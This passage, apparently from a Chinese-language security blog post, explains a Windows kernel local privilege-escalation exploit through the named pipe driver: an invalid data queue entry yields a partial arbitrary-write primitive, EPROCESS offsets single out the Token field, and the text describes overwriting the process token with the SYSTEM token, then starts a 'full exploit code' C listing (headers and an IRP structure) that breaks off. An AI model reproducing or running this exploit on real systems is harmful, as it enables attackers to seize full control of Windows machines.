   
  
如果命名管道条目的 EntryType 大于 2，则该条目会被 NpRemoveDataQueueEntry 移除，因为该条目无效。移除条目后，irp->IoStatus.Status 被设置为 0。然而，IoStatus.Information 并不会改变。因此，可以利用这一特性构造（部分的）任意写原语。  
  
```
+0x468 CreateTime : _LARGE_INTEGER
+0x470 ProcessQuotaUsage : [2] Uint8B
+0x480 ProcessQuotaPeak : [2] Uint8B
+0x490 PeakVirtualSize : Uint8B
+0x498 VirtualSize : Uint8B
+0x4a0 SessionProcessLinks : _LIST_ENTRY
+0x4b0 ExceptionPortData : Ptr64 Void // Is it ok if it is overwritten to zero?
+0x4b0 ExceptionPortValue : Uint8B // Is it ok if it is overwritten to zero?
+0x4b0 ExceptionPortState : Pos 0, 3 Bits // Is it ok if it is overwritten to zero?
+0x4b8 Token : _EX_FAST_REF // Target Field
+0x4c0 MmReserved : Uint8B
+0x4c8 AddressCreationLock : _EX_PUSH_LOCK
+0x4d0 PageTableCommitmentLock : _EX_PUSH_LOCK
```  
  
  
幸运的是，如果 ExceptionPortData/ExceptionPortValue（位于 Token 之前的字段）被清零，不会引发问题。因此，可以利用此原语，将当前进程的令牌覆盖为 SYSTEM 令牌，从而获得系统权限。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0nJYWtDC09c8a9n4P0qlRZ1CW1VOYwDECJ2F2tetVLKuHIP57hZibHCsJgtcN6WIVkeNXbl9bsP2PtVDPZRVvBA/640?wx_fmt=png&from=appmsg "")  
###   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Too3Q2geBBcBtzlnEOEbnYytDiaUtSMle9N2JXiaRiaG1iahAiaCMAvAOdInNLfkSLJ9IicblOVzkYB0aFKenqMFnG5A/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/tFQwTxxFG2WZicsgibWiaiatIvLkGwcF7yKwmia6CtDcg293ZoVgf8ictCrVsJQjzkrByb4Jp8CWz1ozWUnJd7NKtFlA/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ucV2Dc6xtKux3TiaYo3RnRpibIibjuibibZlraHIls0vqHyLJvRicNMFZa4hR5emcDiaSkBwrPgkKOyMUEQqTzjJPceDg/640?from=appmsg "")  
  
完整利用代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5dSQuzHf0ZtSxQKP10uurLXZH8usWznWkDrU44LjZRJGqicCib4FUI4psoHg5noiaaQpAKQXLIUP74lKPNDhWKdQg/640?from=appmsg "")  
  
  
  
  
```
#include <Windows.h>
#include <winternl.h>
#include <winnt.h>
#include <stdio.h>
#include <cfgmgr32.h>

#pragma comment(lib, "Cfgmgr32.lib")

#define DATA_ENTRY_HEADER_SIZE 0x30
#define ENTRY_DATASIZE(x)((x) - DATA_ENTRY_HEADER_SIZE)

/* IRP for 64bitnt!_IRP   +0x000 Type : Int2B   +0x002 Size : Uint2B   +0x004 AllocationProcessorNumber : Uint2B   +0x006 Reserved : Uint2B   +0x008 MdlAddress : Ptr64 _MDL   +0x010 Flags : Uint4B   +0x018 AssociatedIrp : <unnamed-tag>   +0x020 ThreadListEntry : _LIST_ENTRY   +0x030 IoStatus : _IO_STATUS_BLOCK   +0x040 RequestorMode : Char   +0x041 PendingReturned : UChar   +0x042 StackCount : Char   +0x043 CurrentLocation : Char   +0x044 Cancel : UChar   +0x045 CancelIrql : UChar   +0x046 ApcEnvironment : Char   +0x047 AllocationFlags : UChar   +0x048 UserIosb : Ptr64 _IO_STATUS_BLOCK   +0x048 IoRingContext : Ptr64 Void   +0x050 UserEvent : Ptr64 _KEVENT   +0x058 Overlay : <unnamed-tag>   +0x068 CancelRoutine : Ptr64 void   +0x070 UserBuffer : Ptr64 Void   +0x078 Tail : <unnamed-tag>*/
#pragma pack(push, 8)
typedef struct {
  SHORT Type;
  USHORT Size;
  USHORT AllocationProcessorNumber;
  PVOID64 MdlAddress;
  ULONG Flags;
```